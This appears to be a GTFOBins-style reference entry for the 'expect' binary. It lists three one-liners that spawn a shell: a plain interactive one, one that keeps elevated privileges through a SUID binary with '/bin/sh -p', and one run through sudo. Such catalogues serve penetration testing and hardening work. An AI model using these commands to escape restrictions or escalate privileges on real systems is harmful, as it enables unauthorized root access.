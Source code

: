 ```yaml
---
functions:
  execute-interactive:
    - code: expect -c 'spawn /bin/sh;interact'
  suid-enabled:
    - code: ./expect -c 'spawn /bin/sh -p;interact'
  sudo-enabled:
    - code: sudo expect -c 'spawn /bin/sh;interact'
---
```

